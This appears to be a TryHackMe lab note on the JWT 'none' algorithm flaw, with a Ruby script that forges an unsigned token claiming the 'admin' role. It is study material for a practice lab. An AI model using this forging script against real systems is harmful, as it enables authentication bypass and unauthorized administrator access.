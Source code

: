 # JWT Walkthrough with None Algorithm
#pentest/tryhackme

In addition to the previous vulnerability, certain JWT libraries have another devastating vulnerability. There is actually three possible algorithms, two of them RS256 and `HS256` which we have already studied. There is a third algorithm, known as `None`. According to the official  [JWT RFC](https://tools.ietf.org/html/rfc7519)  the None algorithm is used when you still want to use JWT, however there is other security in place to stop people from spoofing data. 

Unfortunately certain JWT libraries clearly didn't read the RFC, allowing a vulnerability where an attacker can switch to the None algorithm, in the same way one switches to `RS256` to `HS255`, and have the token be completely valid without even needing to calculate a secret.

## Ruby script

```rb
require 'openssl'
require 'base64'
require 'json'

def encode(hash_content)
  Base64.encode64(
    JSON.generate(hash_content)
  ).tr('+/', '-_').gsub(/[\n=]/, '')
end

def encode_signature(message)
  Base64.encode64('').tr('+/', '-_').gsub(/[\n=]/, '')
end

def jwt(header, payload_hash)
  encoded_header = encode(header)
  encoded_payload = encode(payload_hash)
  encoded_signature = encode_signature(
    [encoded_header, encoded_payload].join('.')
  )

  [encoded_header, encoded_payload, encoded_signature].join('.')
end

puts jwt(
  { typ: 'JWT', alg: 'none', kid: 'ls'},
  {
    auth: 1592191774757,
    agent: "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0",
    role: "admin",
    iat: 1592191775
  }
)
```
